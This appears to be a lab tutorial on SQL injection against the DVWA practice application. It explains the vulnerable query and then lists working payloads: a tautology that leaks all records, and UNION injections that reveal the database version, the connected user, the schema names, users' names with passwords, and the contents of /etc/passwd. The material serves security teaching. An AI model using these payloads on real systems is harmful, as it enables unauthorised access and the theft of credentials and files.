 # SQL Injection

This type of attacks consists in using SQL commands that can be sent through different entry points in the web application, which can manipulate the business and data logic of the application to gain access to more information, bypass access controls, among others.

So let's use the DVWA page here to test this type of vulnerability.

![](../assets/sqli01.png)
 
In this form when we enter a number, it shows a record.
 
![](../assets/sqli02.png)

Which leads us to assume that the SQL query that is being used to display this information (which can be confirmed with the View Source) is something like:

    "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

In this case:

    SELECT first_name, last_name FROM users WHERE user_id = '1'

Where there are parameters to be directly passed to the SQL query. As such, we can always try passing additional SQL commands so that we can see the results we get. Let's look at different SQL payloads and see their results.

    ' or ''='
 
![](../assets/sqli04.png)

This payload modifies the SQL query to the following:

    SELECT first_name, last_name FROM users WHERE user_id = ‘a’ OR ‘’=’’

Resulting in a leak of information like the one we can see below.
 
![](../assets/sqli03.png)

The next injection will result in displaying the version of the MySQL database server.

    ' union select 1,@@version#
 
![](../assets/sqli05.png)

The next injection will display the username of the user connected to the database server.

    ' union all select system_user(),user() #
 
![](../assets/sqli06.png)

The next SQL injection will display the list of tables on the database.

    ' union select null,schema_name from information_schema.schemata #
 
![](../assets/sqli07.png)

The next injection will display the first name of the user and the password.

    ' union select null,concat(first_name,0x0a,password) from users #
 
![](../assets/sqli08.png)

The next injection will display the contents of a file inside the system.

    ' union all select load_file('/etc/passwd'),null #
 
![](../assets/sqli09.png)

As it was possible to verify, there are several ways, directly in the web application, and without using any kind of additional tool.
